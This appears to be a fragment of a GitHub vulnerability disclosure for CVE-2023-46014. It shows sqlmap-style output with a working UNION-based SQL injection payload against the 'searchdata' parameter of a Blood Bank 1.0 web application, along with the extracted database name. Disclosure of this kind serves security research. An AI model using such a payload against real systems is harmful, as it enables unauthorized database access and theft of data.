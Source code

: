 ```

    Type: UNION query
    Title: Generic UNION query (NULL) - 15 columns
    Payload: searchdata=test%' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170706a71,0x784e7a47626a794a74456975444c5a4c64734556414658476e75684c4a716f6173724b6b6a685163,0x717a787171)-- -&search=
---
```
+ current database: `tsasdb`
<img width="1447" alt="image" src="https://github.com/ersinerenler/CVE-2023-46014-Code-Projects-Blood-Bank-1.0-SQL-Injection-Vulnerability/assets/113091631/2965040a-bf55-4122-8dc6-b1584f900b7b">

